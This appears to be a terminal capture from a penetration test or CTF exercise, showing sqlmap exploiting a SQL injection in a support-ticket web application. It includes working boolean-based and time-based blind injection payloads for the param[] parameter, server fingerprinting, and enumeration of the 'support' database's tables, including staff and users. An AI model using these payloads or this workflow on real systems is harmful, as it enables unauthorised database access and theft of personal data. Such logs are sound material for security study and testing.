 ```bash

[*] ending @ 14:38:07 /2025-08-27/

--------------------------------------------------------------
$ sqlmap -r ticket.req --batch --thread 10 -D support --tables
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.3.3#dev}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:38:50 /2025-08-27/

[14:38:50] [INFO] parsing HTTP request from 'ticket.req'
[14:38:50] [INFO] resuming back-end DBMS 'mysql' 
[14:38:50] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: param[] (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: v=view_tickets&action=ticket&param[]=8&param[]=attachment&param[]=5&param[]=10 AND 2859=2859

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: v=view_tickets&action=ticket&param[]=8&param[]=attachment&param[]=5&param[]=10 AND (SELECT 7344 FROM (SELECT(SLEEP(5)))Tifo)
---
[14:38:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[14:38:51] [INFO] fetching tables for database: 'support'
[14:38:51] [INFO] fetching number of tables for database 'support'
[14:38:51] [INFO] retrieved: 19
...
...
[14:39:34] [INFO] retrieved: 5
[14:39:36] [INFO] retrieved: staff           
[14:39:36] [INFO] retrieving the length of query output
[14:39:36] [INFO] retrieved: 7
[14:39:39] [INFO] retrieved: tickets           
[14:39:39] [INFO] retrieving the length of query output
[14:39:39] [INFO] retrieved: 16
[14:39:42] [INFO] retrieved: tickets_messages             
[14:39:42] [INFO] retrieving the length of query output
[14:39:42] [INFO] retrieved: 5
[14:39:44] [INFO] retrieved: users           
Database: support
[19 tables]
+------------------------+
| articles               |
| attachments            |
| canned_response        |
| custom_fields          |
| departments            |
| emails                 |
```